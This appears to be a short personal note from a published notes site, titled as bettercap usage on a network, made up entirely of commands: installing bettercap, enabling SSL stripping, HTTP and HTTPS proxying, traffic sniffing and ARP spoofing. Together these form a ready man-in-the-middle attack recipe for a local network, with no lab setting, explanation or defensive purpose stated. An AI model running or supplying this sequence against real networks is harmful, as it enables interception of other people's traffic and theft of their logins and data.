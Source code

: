 ```yaml
---
{"dg-publish":true,"permalink":"/everything-about-linux/bettercap-on-network-stack/","dgPassFrontmatter":true,"noteIcon":""}
---
```




apt install bettercap
sudo bettercap
get http.proxy.sslstrip 
set http.proxy.sslstrip true



http.proxy on
https.proxy on
net.sniff.on
arp.spoof.on



